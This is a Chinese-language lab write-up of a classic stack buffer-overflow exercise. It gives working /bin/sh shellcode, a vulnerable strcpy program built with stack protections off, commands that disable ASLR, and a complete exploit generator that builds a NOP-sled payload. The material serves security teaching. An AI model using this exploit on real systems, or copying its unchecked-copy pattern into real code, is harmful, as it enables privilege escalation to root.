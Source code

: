 # 缓存溢出攻击实验

根据课程方向、本人兴趣，进行了buffer overflow实验

## 实验过程
因为系统环境是64位，实验环境需要用32位，因此安装32位的lib。
系统启动内存地址随机化，缓存溢出攻击会被防止，因此关闭内存地址随机化机制，指令如下。

```
sudo sysctl -w kernel.randomize_va_space=0
```

为了重现这一防护措施被实现之前的情形，我们使用另一个shell程序（zsh）代替/bin/bash

```
ln -s /bin/zsh /bin/sh
```

代码分析

- shellcode
```
#include <stdio.h>
int main( ) {
char *name[2];
name[0] = ‘‘/bin/sh’’;
name[1] = NULL;
execve(name[0], name, NULL);
}
```
若执行该代码，则用户可以拿到root权限，汇编版本如下
```
\x31\xc0\x50\x68"//sh"\x68"/bin"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```
-	有漏洞的程序

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int bof(char *str)
{
char buffer[12];
strcpy(buffer, str);

return 1;
}

int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
}
```
因为，该代码使用有漏洞的函数strcpy(),可以导致缓存溢出，由于该函数不检查矩阵的大小，因此可以导致缓存溢出并覆盖现有的数据，如返回地址。
写完代码编译的时候要关闭GCC的缓存溢出防护机制，细节如下。
```
-z execstack ：允许执行stack
-fno-stack-protector ：关闭gcc缓存溢出防护机制。 
```
-	攻击程序
```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=

"\x31\xc0"    //xorl %eax,%eax
"\x50"        //pushl %eax
"\x68""//sh"  //pushl $0x68732f2f
"\x68""/bin"  //pushl $0x6e69622f
"\x89\xe3"    //movl %esp,%ebx
"\x50"        //pushl %eax
"\x53"        //pushl %ebx
"\x89\xe1"    //movl %esp,%ecx
"\x99"        //cdq
"\xb0\x0b"    //movb $0x0b,%al
"\xcd\x80"    //int $0x80
;

void main(int argc, char **argv)
{
char buffer[517];
FILE *badfile;
memset(&buffer, 0x90, 517);
strcpy(buffer,"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90""攻击代码的地址");
strcpy(buffer+100,shellcode);
badfile = fopen("./badfile", "w");
fwrite(buffer, 517, 1, badfile);
fclose(badfile);
}
```
生成一个文件并写517子节点"\x90"，然后从开到28字节（24字节dummy + 4字节shellcode的地址），再从地100字节写下去shellcode。
由于代码未完成（没有攻击代码地址），因此需要得到其地址，首先用gdb查到buffer的地址，然后加100（\x64）即可得到攻击代码的地址，将攻击程序里的攻击代码地址改成此时得到的地址（例如：\x82\xd5\xff\xff），此时要注意顺序（即little-endian）。 

编译好攻击程序之后，先执行攻击程序，然后执行有漏洞的程序，结果可以拿得到root权限

##练习
1、按照实验步骤进行操作，攻击漏洞程序并获得root权限。

= 已完成

2、通过命令”sudo sysctl -w kernel.randomize_va_space=2“打开系统的地址空间随机化机制，重复用exploit程序攻击stack程序，观察能否攻击成功，能否获得root权限。

= 由于该命令是Linux系统启动内存地址随机化机制，结果攻击不能成功。

3、将/bin/sh重新指向/bin/bash（或/bin/dash），观察能否攻击成功，能否获得root权限。

= bin/bash 里还有防护机制，也不能成功此攻击。

##心得
通过进行缓存溢出攻击实验可以体会缓存溢出的方法并得知栈溢出的原理，希望有在运行防护机制环境下的实验项目。

